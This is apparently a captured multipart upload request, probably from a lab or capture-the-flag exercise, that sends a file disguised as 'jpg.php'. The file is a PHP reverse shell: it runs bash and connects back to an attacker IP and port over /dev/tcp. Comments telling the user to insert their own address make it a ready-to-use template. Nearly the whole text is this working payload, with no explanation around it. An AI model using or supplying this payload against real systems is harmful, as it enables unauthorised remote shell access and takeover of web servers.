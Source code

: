 ------WebKitFormBoundaryKn962tU5ngK9RjBV
Content-Disposition: form-data; name="file"; filename="jpg.php"
Content-Type: application/x-php

<?php
$ip = '10.8.30.74';  // Replace with your IP address
$port = 5555;  // Replace with your listening port
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>

------WebKitFormBoundaryKn962tU5ngK9RjBV--

